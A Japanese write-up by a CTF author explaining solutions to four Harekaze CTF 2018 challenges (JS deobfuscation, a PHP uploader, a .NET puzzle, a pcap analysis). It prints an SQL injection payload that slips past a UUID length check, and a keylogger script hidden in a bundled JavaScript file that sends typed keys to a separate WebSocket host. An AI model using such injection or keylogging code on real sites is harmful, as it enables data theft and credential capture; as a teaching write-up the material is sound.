

[Harekaze CTF 2018](https://harekaze.com/ctf-jp.html) にご参加いただきありがとうございました。

この記事では、私が出題した以下の 4 問について解説をします。

- [Web 50] Obfuscated Password Checker
- [Web 100] Sokosoko Secure Uploader
- [Rev 200] 15 Puzzle
- [Rev + Net 200] Logger

## [Web 50] Obfuscated Password Checker

> パスワードを手に入れてください!
> Get the password!
> - [src.zip](https://github.com/st98/harekaze-ctf-2018/blob/master/ObfuscatedPasswordChecker/attachments/src.zip?raw=true)

正答チーム数は 112 でした。

### 想定解法

与えられた `src.zip` を展開すると以下のファイルが出てきます。

- index.html
- bundle.js

`index.html` を開くと、パスワードを入力できるフォームが表示されます。

適当なパスワードを入力して送信すると `nope...` と表示されます。このことから送信ボタンにイベンドリスナが張られていると推測して、DevTools から `#button` の Event Listeners を見ると click 時にひとつ登録されているのが分かります。

```javascript
        _0x5726ad[_0x991f('0x2d', '\x48\x40\x5b\x68')](_0x991f('0x2e', '\x56\x70\x44\x24'), ()=>{
            var _0x5d7c01 = _0x4202b3[_0x991f('0x2f', '\x5d\x21\x57\x37')];
            _0x5b2986[_0x991f('0x30', '\x54\x5a\x30\x6f')][_0x991f('0x31', '\x77\x43\x31\x32')] = _0x991f('0x32', '\x45\x26\x77\x79');
            if (_0x5d7c01 === _0x256968) {
                _0x5b2986[_0x991f('0x33', '\x53\x62\x55\x38')] = _0x991f('0x34', '\x67\x4c\x31\x55');
                _0x5b2986[_0x991f('0x35', '\x48\x40\x5b\x68')] = _0x991f('0x36', '\x6e\x68\x76\x7a') + _0x256968;
            } else {
                _0x5b2986[_0x991f('0x37', '\x63\x4f\x32\x2a')] = _0x991f('0x38', '\x56\x70\x44\x24');
                _0x5b2986[_0x991f('0x39', '\x59\x5d\x55\x39')] = _0x991f('0x3a', '\x69\x24\x4d\x51');
            }
        }
        , ![]);
```

`_0x5d7c01` と `_0x256968` が比較されています。`_0x5d7c01 === _0x256968` にブレークポイントをセットして適当なパスワードを入力して送信、`_0x256968` の内容を確認するとフラグが得られました。

```
HarekazeCTF{j4v4scr1pt-0bfusc4t0r_1s_tsur41}
```

## [Web 100] Sokosoko Secure Uploader

> [このサービス](https://github.com/st98/harekaze-ctf-2018/tree/master/SokosokoSecureUploader/server)を使ってファイルを暗号化しました。暗号化後のファイルを添付しましたが、UUID は誤って削除してしまいました。覚えているのは、この UUID が 9e5a から始まることだけです :(
> I encrypted my file by using [this service](https://github.com/st98/harekaze-ctf-2018/tree/master/SokosokoSecureUploader/server). Attachment is the encrypted file, but I accidentally deleted the UUID of the file. All I remember is the UUID starts with 9e5a :(
> - [flag.png.encrypted](https://github.com/st98/harekaze-ctf-2018/blob/master/SokosokoSecureUploader/attachments/flag.png.encrypted?raw=true)
> - [src.zip](https://github.com/st98/harekaze-ctf-2018/blob/master/SokosokoSecureUploader/attachments/src.zip?raw=true)

正答チーム数は 57 でした。

### 想定解法

与えられた `src.zip` を展開すると以下のファイルが出てきます。

- `.htaccess`
- `encrypt.php`
- `decrypt.php`
- `functions.php`
- `index.html`
- `style.css`
- `schema.sql`

サーバのソースコードです。`decrypt.php` を見ていると、変数をそのまま SQL 文に展開しているために SQL インジェクションができそうな箇所が見つかります。

```php
$pdo = new PDO('sqlite:key.db');
$stmt = $pdo->query("SELECT key FROM decryption_key WHERE id = '$uuid'");
$res = $stmt->fetch();
```

この `$uuid` がどこから来たか確認すると、以下のような箇所が見つかります。

```php
$uuid = $_POST['uuid'];
if (!is_string($uuid) || !is_uuid($uuid)) {
  die('invalid UUID');
}
```

ユーザ入力から来たようです。`is_string` は引数が文字列かどうかを確認する PHP の標準関数で、`is_uuid` は `functions.php` で定義されている関数です。`is_uuid` が何をしているか確認してみましょう。

```php
function is_uuid($str) {
  if (strlen($str) !== 36) {
    return false;
  }
  if ($str[8] !== '-' or $str[13] !== '-' or $str[18] !== '-' or $str[23] !== '-') {
    return false;
  }
  return true;
}
```

引数の 9 文字目、14 文字目、19 文字目、23 文字目が `-` であるか、文字数が 36 文字であるかを確認しています。

この制約の範囲内で `id` が `9e5a` から始まるレコードを探す文字列は `'or id/*-xxxx-xxxx-xxxx-*/like'9e5a%` のようになります。

これを UUID として `flag.png.encrypted` をアップロードすると、復号することができました。



```
HarekazeCTF{k41k4n_j1kk4n_j1n615uk4n}
```

## [Rev 200] 15 Puzzle

> 15 パズルを 1000 回解いてください!
> Solve 15-puzzle 1000 times!
> - [Harekaze15Puzzle.exe](https://github.com/st98/harekaze-ctf-2018/blob/master/15Puzzle/attachments/Harekaze15Puzzle.exe?raw=true)

正答チーム数は 44 でした。

### 想定解法

`file` コマンドを使って、与えられたファイルについて調べてみます。

```
>file Harekaze15Puzzle.exe
Harekaze15Puzzle.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
```

.NET の実行ファイルのようです。[dnSpy](https://github.com/0xd4d/dnSpy) を使って `Harekaze15Puzzle.exe` をデコンパイルし、フラグがどのタイミングで、どうやって表示されるか調べてみます。

`Form1.cs`

```csharp
    public class Form1 : Form
    {
        //...
        private void Form1_Load(object sender, EventArgs e)
        {
            //...
            IEnumerable<MethodInfo> arg_F3_0 = typeof(Form1).GetMethods(BindingFlags.DeclaredOnly | BindingFlags.Instance | BindingFlags.NonPublic);
            Func<MethodInfo, int> arg_F3_1;
            if ((arg_F3_1 = Form1.<>c.<>9__5_0) == null)
            {
                arg_F3_1 = (Form1.<>c.<>9__5_0 = new Func<MethodInfo, int>(Form1.<>c.<>9.<Form1_Load>b__5_0));
            }
            IEnumerable<int> arg_117_0 = arg_F3_0.Select(arg_F3_1);
            Func<int, int, int> arg_117_1;
            if ((arg_117_1 = Form1.<>c.<>9__5_1) == null)
            {
                arg_117_1 = (Form1.<>c.<>9__5_1 = new Func<int, int, int>(Form1.<>c.<>9.<Form1_Load>b__5_1));
            }
            this.rnd = new Random(arg_117_0.Aggregate(arg_117_1));
            this.InitializePanels();
        }

        private void Button_Click(object sender, EventArgs e)
        {
            // ...
            if (this.IsPuzzleSolved())
            {
                this.score++;
                this.label2.Text = string.Format("Score: {0} / 1000", this.score);
                this.ShufflePanels();
            }
            if (this.score == 1000)
            {
                FlagGenerator.ShowFlag(this.rnd);
            }
            this.UpdateButtons();
        }
        //...
        [CompilerGenerated]
        [Serializable]
        private sealed class <>c
        {
            internal int <Form1_Load>b__5_0(MethodInfo x)
            {
                return CRC32.Compute(x.GetMethodBody().GetILAsByteArray());
            }

            internal int <Form1_Load>b__5_1(int x, int y)
            {
                return x ^ y;
            }

            public static readonly Form1.<>c <>9 = new Form1.<>c();

            public static Func<MethodInfo, int> <>9__5_0;

            public static Func<int, int, int> <>9__5_1;
        }
    }
```

`FlagGenerator.cs`

```csharp
    internal class FlagGenerator
    {
        public static void ShowFlag(Random rnd)
        {
            for (int i = 0; i < FlagGenerator.flag.Length; i++)
            {
                byte[] expr_0F_cp_0 = FlagGenerator.flag;
                int expr_0F_cp_1 = i;
                expr_0F_cp_0[expr_0F_cp_1] ^= (byte)rnd.Next(256);
            }
            MessageBox.Show(string.Format("Congratulations! The flag is {0}", Encoding.ASCII.GetString(FlagGenerator.flag)));
        }
        private static byte[] flag = new byte[]
        {
            // ...
        };
    }
```

まず `Form1.Form1_Load` で `this.rnd = new Random(…)` で擬似乱数生成器を初期化しています。

15 パズルを 1000 回解いた後に呼び出される `FlagGenerator.ShowFlag` では、`FlagGenerator.flag` を 1 文字ずつ `rnd.Next(256)` で擬似乱数を生成して xor し出力しています。

`this.rnd` に与えるシードは Form1 が持つメソッドの IL (.NET のバイトコード) の CRC を使って計算しています。そのため、いきなり `if (this.IsPuzzleSolved())` を `if (!this.IsPuzzleSolved())` のように書き換えて、ボタンをクリックするだけでパズルを解いたように判定されるようにしても、シードが変わってしまいフラグを手に入れることができません。

IL を編集してもフラグの生成に影響が出ないようにするために、以下の手順でデコンパイルにも使った dnSpy で `this.rnd` の内部状態を取得します。

1. `Form1_Load` の `this.InitializePanels();` にブレークポイントをセット
2. 手順 1 の箇所まで実行
3. `this.rnd` の `SeedArray` の全要素をダンプ

得られた `this.rnd` の内部状態を使って `Form1.Form1_Load` を以下のように編集します。

```csharp
var field = typeof(Random).GetField("SeedArray", BindingFlags.Instance | BindingFlags.NonPublic);
var arr = (int[])field.GetValue(this.rnd);
field.SetValue(this.rnd, new int[] {
    0x00000000, 0x19827A3A, 0x2EC10181, 0x3CFE6A29, 0x06B7E153, 0x3F91B505, 0x4B997BF9, 0x39AD883F, 0x64DDCCCD, 0x52371A9F, 0x54088846, 0x020AB774, 0x09DBF33C, 0x1102E6EC, 0x4DDEFB27, 0x47D5038C, 0x5592E89B, 0x7FD09A2B, 0x2E83E95D, 0x748DA1E2, 0x6F4C5940, 0x0116DECC, 0x3BA6539C, 0x0447BCDC, 0x0587D1A6, 0x77F12206, 0x39792A4E, 0x2453B5D3, 0x1D9C89A9, 0x607707BF, 0x217B0C51, 0x6317A080, 0x76E33941, 0x6578CDB4, 0x08910309, 0x312D52B4, 0x01FC0F92, 0x03921D52, 0x2F9BFAC1, 0x6D36AE54, 0x72298A14, 0x59EAA07C, 0x47E63D79, 0x5F9FA9B7, 0x69A8F2A4, 0x2D2AB251, 0x11535433, 0x0D823E2D, 0x0187D283, 0x1496664C, 0x70430C8D, 0x1C2A7266, 0x26C3F891, 0x557CDE20, 0x369F9F37, 0x2FB8EEC8
});
```

これで IL を編集しても生成される乱数列に影響が出ないようになりました。

あとは `Form1.Button_Click` の `if (this.IsPuzzleSolved())` を `if (!this.IsPuzzleSolved())` のように書き換えて、Enter キーを押下しながらボタンのクリックを繰り返すだけでフラグが得られました。

```
HarekazeCTF{.NET_4pp_c4n_3451ly_b3_d3c0mp1l3d}
```

## [Rev + Net 200] Logger

> 誰かにパスワードを盗まれました…(´・ω・｀)
> Someone stole my password … (´・ω・｀)
> - [logger.pcapng](https://github.com/st98/harekaze-ctf-2018/blob/master/Logger/attachments/logger.pcap?raw=true)

正答チーム数は 21 でした。

### 想定解法

与えられた pcapng ファイルを開いて、出てくる IP アドレスを確認します。

IP アドレス|詳細
---|---
192.168.99.1|Chrome で Web ブラウジングをしている
192.168.99.100|Apache、PHP 製のブログを配信しているっぽい
192.168.99.101|WebSocket サーバ、通信はエンコードされていて読めない

`192.168.99.1` の行動を見ていると、2 度ログインを試行し 1 回目は失敗、2 度目は成功していることが分かります。

ログイン時にパスワードが平文で入力されていないか確認すると、以下のようにパスワードは送信時にハッシュ化されており、元の文字列を得るのは難しいと分かります。

```
POST /login.php HTTP/1.1
Host: 192.168.99.100
...

username=irizaki_mei&cnonce=0.8418828388902593&hash=b7be1c725bdd3bfab1993f2320ee337d17ee6ba9c5d867518b7f69432ea6b3de
```


`192.168.99.100` のファイルを抜き出すために、pcapng を pcap に変換して NetworkMiner に投げます。これで `index.html` とこの中で読み込まれている `dist/bundle.js` が得られました。

`dist/bundle.js` は様々なライブラリが圧縮されており大変読みにくくなっていますが、よく見るとライブラリごとにライセンス表記や改行で区切られていることが分かります。1 行ずつ確認していくと、最終行に以下のような怪しいコードが挿入されているのが分かります。

```javascript
window.addEventListener("DOMContentLoaded",function(){function encode(s,t){var r=[];if(typeof s==="string"){s=new TextEncoder("utf-8").encode(s)}var i,z;for(i=0;i<s.length;i++){if(s[i]){break}}z=i;for(;i<s.length;i++){var c=s[i];var j;for(j=0;j in r||c;j++){if(r[j]){c+=r[j]*256}r[j]=c%58;c=Math.floor(c/58)}}return t[0].repeat(z)+r.reverse().map(function(x){return t[x]}).join("")}function hash(s){var r=0,i;for(i=0;i<s.length;i++){r=r*31+s.charCodeAt(i)|0}return r}function rand(s){var x=123456789;var y=362436069;var z=521288629;var w=88675123;var t;return function(a,b){t=x^x<<11;x=y;y=z;z=w;w=w^w>>19^(t^t>>8);if(a!==undefined&&b!==undefined){return a+w%(b+1-a)}return w}}function shuffle(a,r){var i;for(i=a.length-1;i>0;i--){var j=Math.abs(r(0,i));var t=a[i];a[i]=a[j];a[j]=t}}var w=new WebSocket("ws://192.168.99.101:7467");var t="MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp";w.addEventListener("open",function(event){var s=navigator.userAgent;w.send(encode(navigator.userAgent,t));t=t.split("");shuffle(t,rand(hash(s)));t=t.join("")});Array.from(document.getElementsByTagName("input")).forEach(function(e){e.addEventListener("keyup",function(v){w.send(encode(Math.random().toString().slice(2)+" "+v.key,t))},false)})},false);
```

読みやすく整形しましょう。

```javascript
window.addEventListener("DOMContentLoaded", function() {
    function encode(s, t) {
        var r = [];
        if (typeof s === "string") {
            s = new TextEncoder("utf-8").encode(s)
        }
        var i, z;
        for (i = 0; i < s.length; i++) {
            if (s[i]) {
                break
            }
        }
        z = i;
        for (; i < s.length; i++) {
            var c = s[i];
            var j;
            for (j = 0; j in r || c; j++) {
                if (r[j]) {
                    c += r[j] * 256
                }
                r[j] = c % 58;
                c = Math.floor(c / 58)
            }
        }
        return t[0].repeat(z) + r.reverse().map(function(x) {
            return t[x]
        }).join("")
    }

    function hash(s) {
        var r = 0,
            i;
        for (i = 0; i < s.length; i++) {
            r = r * 31 + s.charCodeAt(i) | 0
        }
        return r
    }

    function rand(s) {
        var x = 123456789;
        var y = 362436069;
        var z = 521288629;
        var w = 88675123;
        var t;
        return function(a, b) {
            t = x ^ x << 11;
            x = y;
            y = z;
            z = w;
            w = w ^ w >> 19 ^ (t ^ t >> 8);
            if (a !== undefined && b !== undefined) {
                return a + w % (b + 1 - a)
            }
            return w
        }
    }

    function shuffle(a, r) {
        var i;
        for (i = a.length - 1; i > 0; i--) {
            var j = Math.abs(r(0, i));
            var t = a[i];
            a[i] = a[j];
            a[j] = t
        }
    }
    var w = new WebSocket("ws://192.168.99.101:7467");
    var t = "MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp";
    w.addEventListener("open", function(event) {
        var s = navigator.userAgent;
        w.send(encode(navigator.userAgent, t));
        t = t.split("");
        shuffle(t, rand(hash(s)));
        t = t.join("")
    });
    Array.from(document.getElementsByTagName("input")).forEach(function(e) {
        e.addEventListener("keyup", function(v) {
            w.send(encode(Math.random().toString().slice(2) + " " + v.key, t))
        }, false)
    })
}, false);
```

`192.168.99.101:7467` で動いている WebSocket サーバに接続後、`input` 要素でキー入力が行われた際に謎のエンコードを行ってそのサーバに送信していることが分かります。

`encode` の処理の内容を見ていくと、どうやらバイナリを 58 種類の文字だけで表される文字列にエンコードするものと分かります。"58種類 文字" のようなキーワードで検索すると、これは Base58 というエンコード方式であると推測できます。

これで `var t = "MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp"` は Base58 のエンコードに使うテーブルであると分かりました。

このテーブルはWebSocket サーバに接続後、`navigator.userAgent` のハッシュコードを `hash` で計算し、これをシードとして `rand` という擬似乱数生成器を使ってシャッフルされています。

HTTP リクエストヘッダに含まれている情報を使うと、シャッフル後のテーブルを得ることができました。

```javascript
var table = 'MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp';
var userAgent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36';
console.log(table); // => 'MeitamANbcfv2yXDH1RjPTzVqnLYFhE54uJUkdwCgGB36srQ8o9ZK7WxSp'
table = table.split('');
shuffle(table, rand(hash(userAgent)));
console.log(table.join('')); // => 'Ehi6osZTjMV7SRygBxUD9CdFcvub1pr4G85NAnm3XakPzQHKwYL2tJefWq'
```

デコードするスクリプトを書くとフラグが得られました。

```python
import binascii
import itertools
from scapy.all import *

table = b'Ehi6osZTjMV7SRygBxUD9CdFcvub1pr4G85NAnm3XakPzQHKwYL2tJefWq'
def decode(s):
  res = 0
  for i, c in enumerate(s[::-1]):
    res += 58 ** i * table.index(c)
  return binascii.unhexlify(hex(res)[2:])

def xor(a, b):
  return bytes(x ^ y for x, y in zip(a, itertools.cycle(b)))

for pkt in rdpcap('logger.pcap'):
  if IP not in pkt or pkt[IP].dst != '192.168.99.101':
    continue
  s = bytes(pkt[TCP].payload)
  if len(s) == 0 or b'GET' in s:
    continue
  if s[0] & 0x80 and s[0] & 0xf == 0x1 and s[1] != 0xfe:
    print(decode(xor(s[6:], s[2:6])).split(b' ')[1].decode('ascii'))
```

```
$ python3 solve.py
...
H
Shift
a
r
e
k
a
z
e
C
T
F
{
Shift
7
r
1
6
6
3
r
_
Shift
h
4
p
p
y
_
Shift
6
1
r
l
}
Shift
```

```
HarekazeCTF{7r1663r_h4ppy_61rl}
```